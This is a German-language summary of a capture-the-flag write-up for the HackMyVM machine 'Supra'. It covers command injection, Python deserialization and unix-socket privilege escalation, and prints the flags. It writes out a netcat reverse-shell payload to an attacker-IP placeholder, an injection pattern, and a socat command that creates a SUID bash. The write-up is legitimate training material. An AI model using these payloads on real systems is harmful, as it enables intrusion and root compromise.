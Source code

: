 # Supra - HackMyVM (Hard)
 
![Supra.png](Supra.png)

## Übersicht

*   **VM:** Supra
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Supra)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 21. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Supra_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Supra"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Identifizierung einer Node.js-Anwendung auf Port 4000. Eine Path-Traversal-Schwachstelle (`/uploads/..%2Fapp.js`) wurde gefunden, aber der entscheidende Einstiegspunkt war ein API-Endpunkt (`/internal-processes-v1-display`) mit einer Command Injection im `uid`-Parameter. Dies ermöglichte eine Reverse Shell als `www-data`. Die Privilegieneskalation erfolgte in mehreren Schritten: Zuerst wurden über einen internen API-Endpunkt (`/read-leaked-accounts` auf Port 8082, nur lokal erreichbar) Klartext-Credentials für mehrere Konten geleakt. Ein Python-Deserialisierungsangriff gegen einen weiteren internen API-Endpunkt (Port 8081, nur lokal erreichbar), vermutlich mit einem der geleakten Accounts oder durch weitere Enumeration des API-Codes, führte zu einer Shell als Benutzer `it404`. Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Der finale Schritt zur Root-Eskalation erfolgte durch die Ausnutzung eines unsicheren Unix Domain Sockets (`/usr/local/src/socket.s`). Über diesen Socket konnten Befehle gesendet werden, um eine SUID-Bash-Kopie in `/tmp` zu erstellen, was zu Root-Rechten führte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `wfuzz`
*   `curl`
*   `nc` (netcat)
*   `python3`
*   `stty`
*   `ls`
*   `cat`
*   `sudo` (versucht)
*   `netstat` (oder `ss`)
*   `git`
*   `chmod`
*   `wget`
*   `ssh`
*   `socat`
*   `bash`
*   `cp` (via socat)
*   Standard Linux-Befehle

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Supra" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.109`).
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH), 80 (HTTP - Apache Default), 4000 (HTTP - Node.js "NullTrace").
    *   `gobuster` auf Port 80 zeigte Standardinhalte.
    *   Entdeckung einer Path-Traversal-Schwachstelle auf Port 4000 (`/uploads/..%2Fapp.js`).
    *   Identifizierung eines verwundbaren API-Endpunkts auf Port 4000: `/internal-processes-v1-display`.
    *   Bestätigung einer Command Injection im Parameter `uid` dieses Endpunkts (`?uid=id;[BEFEHL]`).

2.  **Initial Access (Reverse Shell via Command Injection):**
    *   Ausnutzung der Command Injection im `uid`-Parameter von `/internal-processes-v1-display` (Port 4000) mit einem URL-kodierten Reverse-Shell-Payload (`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [Angreifer-IP] 9001 >/tmp/f`).
    *   Erlangung einer interaktiven Shell als Benutzer `www-data`.

3.  **Privilege Escalation (von `www-data` zu `it404`):**
    *   `www-data` hatte keinen direkten `sudo`-Zugriff.
    *   Entdeckung eines lauschenden Unix Domain Sockets `/usr/local/src/socket.s`.
    *   Entdeckung eines internen API-Endpunkts auf Port 8082 (nur lokal erreichbar via `curl 127.0.0.1:8082/read-leaked-accounts`), der Klartext-E-Mail/Passwort-Kombinationen preisgab.
    *   Entdeckung eines weiteren internen API-Endpunkts auf Port 8081 (nur lokal erreichbar).
    *   Vorbereitung eines Python-Deserialisierungs-Payloads (Reverse Shell zu Port 666) mit einem externen Tool (`python-deserialization-attack-payload-generator`).
    *   Senden des Deserialisierungs-Payloads an einen (nicht explizit im Log gezeigten) verwundbaren Endpunkt der internen API auf `127.0.0.1:8081`.
    *   Erlangung einer Reverse Shell als Benutzer `it404`.
    *   User-Flag `51cd198c3850df9cbca35f2d7609a5cc` in `/home/it404/local.txt` gelesen.

4.  **Privilege Escalation (von `it404` zu `root`):**
    *   Ausnutzung des zuvor identifizierten Unix Domain Sockets `/usr/local/src/socket.s`.
    *   Senden von Befehlen an den Socket mittels `socat` als `it404`: `echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - unix-client:/usr/local/src/socket.s`.
    *   Diese Befehle erstellten eine SUID-Kopie von Bash in `/tmp/bash`.
    *   Ausführen von `/tmp/bash -p` als `it404` führte zu einer Root-Shell.
    *   Root-Flag `3d7121ef7752d55a72c938af2248d777` in `/root/proof.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Command Injection in API:** Ein Node.js API-Endpunkt (`/internal-processes-v1-display?uid=...`) war anfällig für Command Injection.
*   **Path Traversal:** Eine Path-Traversal-Schwachstelle in der Node.js-Anwendung wurde initial gefunden (aber nicht primär für den Zugriff genutzt).
*   **Informationsleck durch internen API-Endpunkt:** Klartext-Credentials wurden über einen internen API-Endpunkt (`/read-leaked-accounts`) preisgegeben.
*   **Python Deserialization:** Eine interne API (Port 8081) war anfällig für unsichere Deserialisierung von Python-Objekten, was zur Codeausführung führte.
*   **Unsicherer Unix Domain Socket:** Ein Unix-Socket (`/usr/local/src/socket.s`) nahm unsanitisierte Befehle entgegen und führte sie vermutlich mit erhöhten Rechten aus, was die Erstellung einer SUID-Bash ermöglichte.
*   **SUID Binary Exploit (indirekt):** Erstellung einer SUID-Kopie von Bash durch Ausnutzung des unsicheren Sockets.

## Flags

*   **User Flag (`/home/it404/local.txt`):** `51cd198c3850df9cbca35f2d7609a5cc`
*   **Root Flag (`/root/proof.txt`):** `3d7121ef7752d55a72c938af2248d777`

## Tags

`HackMyVM`, `Supra`, `Hard`, `Command Injection`, `Node.js`, `Python Deserialization`, `Unix Socket Exploitation`, `SUID Exploit`, `API Exploitation`, `Path Traversal`, `Linux`, `Web`, `Privilege Escalation`
